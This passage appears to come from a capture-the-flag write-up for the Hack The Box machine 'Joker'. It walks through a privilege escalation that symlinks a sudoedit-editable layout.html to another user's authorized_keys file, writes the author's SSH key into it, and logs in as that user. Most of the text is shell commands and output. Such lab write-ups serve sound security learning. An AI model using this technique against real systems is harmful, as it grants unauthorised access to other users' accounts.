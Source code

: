 First we need to create a directory under `/var/www/`, let's check the permissions.

```
werkzeug@joker:/home/alekos$ cd /var/www
werkzeug@joker:~$ ls -al
total 20
drwxr-xr-x  4 root     root     4096 May 18  2017 .
drwxr-xr-x 14 root     root     4096 Oct 23  2016 ..
-rwxr-x---  1 root     werkzeug  581 May 18  2017 manage-shorty.py
drwxr-x---  5 root     werkzeug 4096 May 18  2017 shorty
drwxr-xr-x  2 werkzeug werkzeug 4096 May 18  2017 testing
```

Looks like the testing directory will work nicely.

```
werkzeug@joker:~$ cd testing
werkzeug@joker:~/testing$ ls
layout.html
```

There is the original layout.html that's meant to be edited by sudoedit. We need to create another directory inside of here to exploit that second wildcard. Then create our symbolic link.

```
werkzeug@joker:~/testing$ mkdir test
werkzeug@joker:~/testing$ cd test
werkzeug@joker:~/testing/test$ ln -s /home/alekos/.ssh/authorized_keys layout.html
werkzeug@joker:~/testing/test$ ls -al
total 8
drwxrwxr-x 2 werkzeug werkzeug 4096 Dec 31 01:02 .
drwxr-xr-x 3 werkzeug werkzeug 4096 Dec 31 01:01 ..
lrwxrwxrwx 1 werkzeug werkzeug   33 Dec 31 01:02 layout.html -> /home/alekos/.ssh/authorized_keys
```

Our symbolic link is in place. Let's edit and put our public ssh key in.

```
werkzeug@joker:/$ sudoedit -u alekos /var/www/testing/test/layout.html

```

Now we can ssh in as alekos. 

```
root@kali:~/htb/joker# ssh alekos@10.10.10.21
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$  
```
Now we can grab the user.txt flag.
